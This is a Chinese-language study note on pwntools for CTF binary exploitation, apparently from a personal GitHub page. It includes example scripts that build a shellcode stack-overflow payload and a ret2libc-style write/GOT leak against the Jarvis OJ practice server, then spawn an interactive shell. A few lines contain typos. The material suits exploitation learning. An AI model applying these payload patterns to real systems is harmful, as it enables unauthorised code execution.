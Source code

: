 通常定义变量时 后面跟 一个bp 大小(8bytes/64位, 4bytes/32位)

ldd filename  通过ldd查找libc共享库
## pwntools
[Link](https://www.jianshu.com/p/6e528b33e37a)

### 指令介绍
p32、p64是64/32位代码 打包为二进制，u32、u64是解包为二进制

__flat模块能将pattern字符串和地址结合并且转为字节模式__

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb附加到调试
### 示例
```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1') 
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从write返回main
```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```
#### 输入字符
```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```
